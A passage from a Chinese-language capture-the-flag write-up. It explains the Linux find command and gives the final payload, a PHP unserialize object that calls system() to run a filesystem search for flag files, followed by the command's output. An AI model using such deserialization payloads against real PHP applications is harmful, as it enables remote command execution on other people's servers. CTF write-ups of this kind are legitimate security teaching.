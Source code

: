 接下来就是找flag
常见的位置并没有发现flag，于是要用到linux很强大的一个函数

> **find**
>
> linux查找指令中功能最强大的当属find指令了。find命令在目录结构中搜索文件，并执行指定的操作。Linux下find命令提供了相当多的查找条件，功能很强大。即使系统中含有网络文件系统，find命令在该文件系统中同样有效。
>
> 这个函数很强大，但是做题其实只需要用到一小部分就好了

本题最后的payload就是

```sh
func=unserialize&p=O:4:"Test":2:{s:1:"p";s:20:"find / -name "flag*"";s:4:"func";s:6:"system";}
/proc/sys/kernel/sched_domain/cpu0/domain0/flags
/proc/sys/kernel/sched_domain/cpu1/domain0/flags
/proc/sys/kernel/sched_domain/cpu10/domain0/flags
/proc/sys/kernel/sched_domain/cpu11/domain0/flags
/proc/sys/kernel/sched_domain/cpu12/domain0/flags
/proc/sys/kernel/sched_domain/cpu13/domain0/flags
/proc/sys/kernel/sched_domain/cpu14/domain0/flags
/proc/sys/kernel/sched_domain/cpu15/domain0/flags
/proc/sys/kernel/sched_domain/cpu16/domain0/flags
/proc/sys/kernel/sched_domain/cpu17/domain0/flags
/proc/sys/kernel/sched_domain/cpu18/domain0/flags
/proc/sys/kernel/sched_domain/cpu19/domain0/flags
/proc/sys/kernel/sched_domain/cpu2/domain0/flags
/proc/sys/kernel/sched_domain/cpu20/domain0/flags
/proc/sys/kernel/sched_domain/cpu21/domain0/flags
/proc/sys/kernel/sched_domain/cpu22/domain0/flags
/proc/sys/kernel/sched_domain/cpu23/domain0/flags
/proc/sys/kernel/sched_domain/cpu24/domain0/flags
/proc/sys/kernel/sched_domain/cpu25/domain0/flags
/proc/sys/kernel/sched_domain/cpu26/domain0/flags
/proc/sys/kernel/sched_domain/cpu27/domain0/flags
/proc/sys/kernel/sched_domain/cpu28/domain0/flags
/proc/sys/kernel/sched_domain/cpu29/domain0/flags
/proc/sys/kernel/sched_domain/cpu3/domain0/flags
/proc/sys/kernel/sched_domain/cpu30/domain0/flags
/proc/sys/kernel/sched_domain/cpu31/domain0/flags
/proc/sys/kernel/sched_domain/cpu4/domain0/flags
/proc/sys/kernel/sched_domain/cpu5/domain0/flags
/proc/sys/kernel/sched_domain/cpu6/domain0/flags
/proc/sys/kernel/sched_domain/cpu7/domain0/flags
/proc/sys/kernel/sched_domain/cpu8/domain0/flags
/proc/sys/kernel/sched_domain/cpu9/domain0/flags
/sys/devices/pnp0/00:00/tty/ttyS0/flags
/sys/devices/platform/serial8250/tty/ttyS15/flags
/sys/devices/platform/serial8250/tty/ttyS6/flags
/sys/devices/platform/serial8250/tty/ttyS23/flags
/sys/devices/platform/serial8250/tty/ttyS13/flags
/sys/devices/platform/serial8250/tty/ttyS31/flags
/sys/devices/platform/serial8250/tty/ttyS4/flags
/sys/devices/platform/serial8250/tty/ttyS21/flags
/sys/devices/platform/serial8250/tty/ttyS11/flags
/sys/devices/platform/serial8250/tty/ttyS2/flags
/sys/devices/platform/serial8250/tty/ttyS28/flags
/sys/devices/platform/serial8250/tty/ttyS18/flags
/sys/devices/platform/serial8250/tty/ttyS9/flags
/sys/devices/platform/serial8250/tty/ttyS26/flags
/sys/devices/platform/serial8250/tty/ttyS16/flags
/sys/devices/platform/serial8250/tty/ttyS7/flags
/sys/devices/platform/serial8250/tty/ttyS24/flags
/sys/devices/platform/serial8250/tty/ttyS14/flags
/sys/devices/platform/serial8250/tty/ttyS5/flags
```
